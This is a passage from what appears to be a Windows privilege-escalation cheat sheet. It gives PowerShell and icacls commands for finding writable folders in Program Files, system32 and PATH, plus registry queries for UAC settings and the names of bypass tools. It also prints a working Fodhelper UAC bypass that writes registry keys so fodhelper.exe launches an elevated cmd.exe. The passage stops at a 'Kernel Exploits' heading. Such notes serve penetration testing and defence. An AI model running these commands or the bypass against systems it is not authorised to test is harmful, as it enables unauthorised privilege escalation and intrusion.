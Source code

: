 ### Weak Folder/File Permissions

```powershell
# Check permissions on Program Files
icacls "C:\Program Files\*" | findstr /i "(F) (M) (W) :\" | findstr /i ":\\ everyone authenticated users"
icacls "C:\Program Files (x86)\*" | findstr /i "(F) (M) (W) :\" | findstr /i ":\\ everyone authenticated users"

# Check system32 directory permissions
icacls "C:\Windows\system32\*" | findstr /i "(F) (M) (W) :\" | findstr /i ":\\ everyone authenticated users"

# PowerShell version
Get-ChildItem "C:\Program Files" -Recurse | Get-ACL | Where-Object {$_.AccessToString -match "Everyone|BUILTIN\\Users.*(FullControl|Modify|Write)"}
```

### Writable Directories in PATH

```powershell
# List directories in PATH
echo %PATH%

# Check permissions on each directory in PATH
for %p in ("%path:;=";"%") do @(icacls "%~p" 2>nul | findstr /i "(F) (M) (W)")
```

## UAC Bypasses

### UAC Bypass Techniques

```powershell
# Check UAC level
REG QUERY HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\ /v EnableLUA
REG QUERY HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\ /v ConsentPromptBehaviorAdmin

# Various UAC bypass tools:
# - UACME (https://github.com/hfiref0x/UACME)
# - Fodhelper bypass
# - Event Viewer bypass
```

Example Fodhelper bypass:
```powershell
New-Item -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Value "cmd.exe" -Force
New-ItemProperty -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Name DelegateExecute -PropertyType String -Force
Start-Process C:\Windows\System32\fodhelper.exe
```

## Kernel Exploits
